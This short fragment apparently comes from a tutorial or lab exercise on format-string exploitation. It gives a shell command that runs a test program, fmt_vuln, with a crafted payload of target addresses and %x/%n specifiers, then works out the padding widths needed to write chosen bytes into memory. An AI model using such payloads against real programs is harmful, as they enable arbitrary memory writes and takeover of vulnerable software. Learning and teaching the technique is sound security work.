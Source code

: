 ./fmt_vuln $(printf "\xcc\x98\x04\x08JUNK\xcd\x98\x04\x08JUNK\xce\x98\x04\x08JUNK\xcf\x98\x04\x08")%0110x%x%x%x%x%x%n%017x%n%017x%n%017x%n

110 = 0xaa - (68-8)
17 = 0xbb - 0xaa
17 = 0xcc - 0xbb
17 = 0xdd - 0xcc

